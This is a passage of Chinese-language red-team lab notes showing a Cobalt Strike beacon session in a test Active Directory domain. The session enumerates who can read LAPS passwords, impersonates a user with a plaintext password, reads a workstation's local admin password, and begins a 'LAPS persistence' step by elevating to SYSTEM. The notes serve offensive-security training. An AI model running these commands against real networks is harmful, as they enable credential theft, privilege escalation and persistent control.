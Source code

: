 [+] host called home, sent: 145560 bytes
beacon> powershell Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier
[*] Tasked beacon to run: Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier
[+] host called home, sent: 893 bytes
[+] received output:
#< CLIXML

ObjectDN                                              SecurityIdentifier       
--------                                              ------------------       
OU=Workstations,DC=dev,DC=cyberbotic,DC=io            S-1-5-21-3263068140-20...
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-20...
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-20...


<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
[*] Tasked beacon to run: ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
[+] host called home, sent: 433 bytes
[+] received output:
#< CLIXML
DEV\1st Line Support
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>
beacon> make_token DEV\jking Purpl3Drag0n
[*] Tasked beacon to create a token for DEV\jking
[+] host called home, sent: 40 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
[*] Tasked beacon to run: Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
[+] host called home, sent: 433 bytes
[+] received output:
#< CLIXML

ms-mcs-admpwd 
------------- 
fk43i9785W8Cw5


```

1661473011405.png


# LAPS Persistence

原理是通过延长密码的有效期达到长期控制的目的，此操作需要system权限

升级到system权限
```
beacon> elevate svc-exe tcp
[*] Tasked beacon to run windows/beacon_bind_tcp (0.0.0.0:4444) via Service Control Manager (\\127.0.0.1\ADMIN$\ed40c83.exe)
[+] host called home, sent: 315466 bytes
[+] received output:
Started service ed40c83 on .
[+] established link to child beacon: 10.10.17.132
```

```